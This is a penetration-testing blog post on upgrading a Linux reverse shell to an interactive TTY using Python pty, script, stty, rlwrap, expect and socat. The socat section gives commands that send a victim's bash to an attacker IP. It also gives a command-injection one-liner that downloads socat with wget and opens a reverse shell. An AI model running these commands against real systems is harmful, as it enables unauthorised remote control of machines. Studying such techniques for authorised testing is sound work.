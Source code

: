 ```yaml
---
description: >-
  How to upgrade a linux reverse shell to a fully usable TTY shell
title: Upgrade a linux reverse shell to a fully usable TTY shell                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, socat, expect, python, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells (Unix machines only) 

(For upgrading Windows shells [click here](https://zweilosec.github.io/posts/upgrade-windows-shell/))

Usually, after catching a shell through netcat you are placed in a shell that has very limited functionality. The features I miss the most are command history (and using the 'up' and 'down' arrows to cycle through them) and tab autocompletion.  It can feel quite disorienting working in a shell that is missing these vital features.  

 **Note:** To check if the shell is a TTY shell use the `tty` command.

## Upgrade to fully interactive shell using Python:

If the remote machine has Python installed you can easily upgrade to a fully functional TTY shell.

1. First, after recieving your reverse shell you need to check the availability of Python. You can do this with the `which` command.

```bash
which python python2 python3
```

If any of these are installed this command will return the full path of the installed binary.  

Note: The `which` command will only report programs that are installed in a folder that exists in `$PATH`.  Python will almost always be in a `$PATH` directory so this should not be an issue.

2. Next, on the victim machine type the below command (using the version of python that is available on the machine!)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell
```

Your command prompt may or may not change to reflect the new shell.  If it does not change, do not panic as this is configured locally and will depend on setting on the machine you are on.

3. Next, type `ctrl-z` to send your shell to the background.

4. On your attack platform, you will need to set up your shell to send control charcters and other raw input through the reverse shell.  You can do this by using the `stty` command as below.

```bash
stty raw -echo
stty size 
```

The second command above will report the size of your terminal window in rows and columns.  This is useful for command output that either fills the whole terminal (such as when using programs such as `nano` or `vim`) or that would output lines that are too long to fit in the window.  Fixing the window size will allow for word-wrapping instead of cutting off output that is too long.

5. After that, type the command `fg` to return the reverse shell to the foreground.  You may need to hit [enter] once or twice to get your prompt to show again.

6. Next, on the victim machine type the below commands to set some important environment variables.

```bash
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

Viola!  You should now be the proud owner of a shiny new fully upgraded TTY shell with command history using the 'up' and 'down' arrows.  This shell will also allow you to use the command `clear` to clear your screen and 'control' commands, such as `ctrl-c` to kill remotely running processes rather than your own shell! Enjoy!

## Upgrading a shell when using zsh (for example in Kali linux) 

The methods above will not work in every situation.  For example, I have regularly run into a problem on my Kali machine where attempting to use `stty raw -echo` while using `zsh` or `fish` as my shell will cause the entire terminal to become unusable.  I have gotten around this issue by switching to `bash` before I start any netcat listener that I will be using to catch a shell, but there are other methods that may work below.  

Some of the things I have found that help mitigate these issues are:

1. Use `rlwrap nc -lvnp` when setting up your listener,
2. make sure not to put a space in your python pty command after the import,
3. type `stty size;stty raw -echo;fg` all on one line.

Finally, as a last resort, you could just switch to `bash` instead when setting up your `nc` listener.

## Using script

tldr: Substitute the python commands in step 1 and 2 above with this command, then continue the rest of the steps above.

```bash
script -qc /bin/bash /dev/null
```

Description: This might sound strange to those who are familiar with using the `script` command to log the output of their console sessions, but it can also be used to upgrade a reverse shell to a usable TTY using the `-c command` option. 

The standard format of this command for logging purposes is `script [options] [output file]`.  If you use the option `-c /bin/bash`, you will run `bash` as a command. The man page describes this option as such:

>          Run the command rather than an interactive shell. This makes 
>          it easy for a script to capture the output of a program that
>          behaves differently when its stdout is not a tty.

In other words, since we are running bash, it properly captures stdin and stdout and creates the missing PTY and essentialy works the same as the python command above.

I also used `/dev/null` above as the 'file' to send the log to.  If you do not include this, the `script` command will by default create a log file in the directory where you ran the command.  If you are doing this on a remote system you may be leaving a transcript of all of your actions behind!

Thanks to [OreoByte](https://github.com/OreoByte) for the reminder of this tip!

## Using Other Scripting Languages:

Below are some examples of other scripting languages that can be used to achieve the same upgraded shell as the second step above.  Afterwards follow along from step 3.

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

## rlwrap
 
You can also mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed by default so you will need to install it using `sudo apt rlwrap`.

```bash
rlwrap nc -lvnp $port
```

## Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

Create a script called `sh.exp`

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

Then, execute this script on the victim machine.  For added sneakiness, run the script [from memory](https://zweilosec.github.io/posts/execute-in-memory/).

## Using socat

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

### socat one-liner

This one-liner can be injected wherever you can get command injection for an instant fully interactive reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## Other Examples

If you have any other examples of methods of upgrading reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or in the comments below!

## References

* [https://unix.stackexchange.com/questions/599065/shell-upgrade-script-typescript-command-using-bash](https://unix.stackexchange.com/questions/599065/shell-upgrade-script-typescript-command-using-bash)

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

